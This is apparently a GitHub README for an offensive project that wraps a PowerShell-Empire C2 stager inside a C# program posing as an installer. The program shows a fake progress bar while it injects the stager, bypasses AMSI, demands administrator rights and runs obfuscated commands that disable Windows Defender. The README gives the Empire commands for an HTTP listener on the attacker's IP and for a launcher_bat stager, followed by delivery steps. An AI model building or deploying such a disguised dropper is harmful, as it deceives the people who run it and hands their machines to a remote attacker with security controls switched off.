 ```
     ______          __             __    __         __
   / ____/___ ___  / /_  ___  ____/ /___/ /__  ____/ /
  / __/ / __ `__ \/ __ \/ _ \/ __  / __  / _ \/ __  / 
 / /___/ / / / / / /_/ /  __/ /_/ / /_/ /  __/ /_/ /  
/_____/_/ /_/ /_/_.___/\___/\__,_/\__,_/\___/\__,_/   

                     `````````
                         ````.-::///+ 
                     `-+sydmmmNNNNNNN
                   ./ymmNNNNNNNNNNNNNN
                 `-ymmNNNNNNNNNNNNNNNN 
               `ommmmNNNNNNNNNNNNNNNNN
              `.ydmNNNNNNNNNNNNNNNNNNN
             `/hmmmNNNNNNNNNNNNNNNNMNN
           ``+hmmmNNNNNNNNNNNNNNNNNMMN
          ``.:ymmmNNNNNNNNNNNNNNNNNNNN
         ```.-/osy+//::---...---:///++
        ``:sdyyydy`       `.:mNNNNNNN 
       ``.hmmdhdmm:     .+hNNNNNNNNNM
      ```/hNNmd/dNNhhdNNNNNNNNNNNNNNN
      ```-hNNNm::mNNNNNNNNNNNNNNNNNNN
     ```/hNNmmmd/+NNNNNNNNNNNNNNNNNm 
     ``/dNNNNmmm+NNNNNNNNNNNmdoosydd
     `sNNNdy+dNNmmmmNNNNNmyoymNNNNNN
      /yhmNNNNNNNNNNNNNNNNNNNNNNmhh 
       `+yhmmNNNNNNNNNNNNNNNNNNmh+. 
         `./dmmNNNNNNNNNNNNNmmd.    
           `ommmNNNNNmNmNNNmmd:     
             :dmmNNNmh./oyhhhy:     
             `/dmmmdo-:/ossd:       
               `/hmmmdddddmh/       
                 `-/shddhyo-        
                    `----.      
    ______                _              ___                    __ 
   / ____/___ ___  ____  (_)_______     /   | ____ ____  ____  / /_
  / __/ / __ `__ \/ __ \/ / ___/ _ \   / /| |/ __ `/ _ \/ __ \/ __/
 / /___/ / / / / / /_/ / / /  /  __/  / ___ / /_/ /  __/ / / / /_  
/_____/_/ /_/ /_/ .___/_/_/   \___/  /_/  |_\__, /\___/_/ /_/\__/  
               /_/                         /____/                  
```

> ⚠️ **Warning:** As of today, this may not be able to bypass AMSI anymore


## Techno & Tools

- C#
- Python
- PowerShell-Empire
- [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)

## Process

### Setup Environment

- You will need 2 VMs
    - Windows (Victim)
    - Kali Linux (Attacker)

### Configure C2

#### 1. Start PowerShell-Empire

<aside>
📌 Open 2  terminal and in each one enter these command (one in each)

</aside>

```bash
sudo powershell-empire server
sudo powershell-empire client
```

#### 2. Configure Listener

```bash
uselistner http
set Name <Name>
set Host <Your IP>
set Port <Port>
execute
```

#### 3. Configure Stager

<aside>
📌 This will generate .bat file

</aside>

```bash
usestager windows/laucher_bat
set listener <listener_name>
execute
```

## Coding Application

💡Make Progress Bar that will make it seem, like it is installing something but in the background it will inject the stager + AMSI Bypass (The patch is only applied for one PowerShell session after that it goes back to default)


- I added an app-manifest that requires the application to be executed as administrator, so I would already have elevated privilege
- I also added some PowerShell command to deactivate some functionalities of windows defender, to be able to execute the script (They will be obfuscated)
- Now Your question might be why you need an AMSI bypass if you will disable windows defender. The thing is when you some PowerShell command AMSI will block it’s execution because it might be a malicious command even if it is obfuscated

### Obfuscation

📌 Follow the instruction in this repository: [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) , to install Invoke-Obfuscation on you attacking machine (Do it in a new terminal)

You can encode any PowerShell command that you add in the Agent Process class

## Delivery

```bash
dotnet build
```

## Testing

- Zip the program
- Put it on the victim machine
- unzip it
- execute program
   - Will have to keep my listener running on my PowerShell machine

